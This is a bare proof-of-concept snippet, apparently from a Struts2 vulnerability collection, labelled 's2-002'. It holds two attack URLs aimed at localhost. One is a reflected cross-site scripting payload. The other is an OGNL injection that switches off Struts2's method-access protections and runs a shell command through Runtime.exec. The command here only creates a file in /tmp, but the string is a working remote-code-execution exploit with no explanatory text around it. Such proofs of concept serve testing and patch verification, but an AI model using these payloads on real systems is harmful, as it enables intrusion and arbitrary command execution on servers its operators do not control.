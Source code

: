 ### s2-002

poc:

http://localhost:8080/index.action?%3Cscript%3Ealert(1)%3C/script%3E



?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1